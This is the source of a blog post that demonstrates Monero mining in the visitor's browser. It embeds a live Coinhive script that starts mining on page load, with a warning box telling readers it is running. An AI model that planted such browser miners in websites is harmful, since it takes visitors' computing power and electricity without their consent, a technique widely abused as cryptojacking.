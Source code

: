```yaml
---
layout: post
title: Mining crypto with a web browser
subtitle: Via Javascript
image: /img/monero.png
tags: [monero, XMR, crypto, currency, cryptocurrency, mine, miner, mining, graphics cards, bitcoin]
comments: true
---
```

<a href="https://getmonero.org/" >Monero (XMR)</a> is a cryptocurrency focused around privacy, decentralization and scalability.
It was created in April of 2014 and has since seen a huge uptick in adoption.
To mine Monero, you have to calculate hashes with an algorithm called Cryptonight.
This algorithm is very compute heavy and – while overall pretty slow – was designed to run well on consumer CPUs.

<table>
	<tr>
		<td>Current Price of Monero</td>
		<td id="XMRprice"></td>
	</tr>
</table>

I recently discovered that there are services out there that allow you to embed a Monero Javascript miner into a web page.
I thought this was an interesting idea and had to try it out for myself. Is it easy to do? How efficient is it? What can it be used for?

{: .box-warning}
**Warning:** The page you are on is currently utilizing your CPU to mine Monero.


___

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>
var miner = new CoinHive.Anonymous('l0YCiLkEmA6Nk1UBDRL9O0OsHSOem86y', {
	threads: 1
});
miner.start();

// Listen on events
miner.on('found', function() { /* Hash found */ })
miner.on('accepted', function() { /* Hash accepted by the pool */ })

// Update stats once per second
setInterval(function() {
	var hashesPerSecond = miner.getHashesPerSecond();
	var totalHashes = miner.getTotalHashes();
	var acceptedHashes = miner.getAcceptedHashes();

	// Output to HTML elements...
	document.getElementById("hashesPerSecond").innerHTML = hashesPerSecond;
	document.getElementById("totalHashes").innerHTML = totalHashes;
	document.getElementById("acceptedHashes").innerHTML = acceptedHashes;
}, 1000);

// API call to Crypto Compare
window.onload = function(){
	var xhttp = new XMLHttpRequest();
	xhttp.onreadystatechange = function() {
		if (this.readyState == 4 && this.status == 200) {
		var json = JSON.parse(this.responseText);
			document.getElementById("XMRprice").innerHTML = "$" + json.USD;
	   }
	};
	xhttp.open("GET", "https://min-api.cryptocompare.com/data/price?fsym=XMR&tsyms=USD", true);
	xhttp.send(); 
}
</script>

## Miner Stats since visiting this page

<table>
<tr>
<td>Hashes Per Second</td>
<td id="hashesPerSecond"></td>
</tr>
<tr>
<td>Accepted Hashes</td>
<td id="acceptedHashes"></td>
</tr>
<tr>
<td>Total Hashes</td>
<td id="totalHashes"></td>
</tr>
</table>

I've hard coded the miner to only operate using 1 thread so it does not hog your CPU.
If you wanted to maximize your Hash Rate you could run a thread per core and these numbers would be 2x-4x greater.

### What can it be used for?
1. Used as an additional revenue source for websites
2. Offer premium services to customers who run miner

### How efficient is it?
There is definitely room for improvment when it comes to efficiency.
That being said I was pretty impressed how it compared to native mining. 
Mining in the browser is about 65% as efficient.

The important thing to note here is that a single visitor may not produce much hashing power but if you have a couple hundred people hitting a page it adds up quick.

### Is it easy to do? 
It is actually extremely easy to do, <a href="2017-11-09-ImplementCoinHive.md">check out my post on how to do it.</a> 
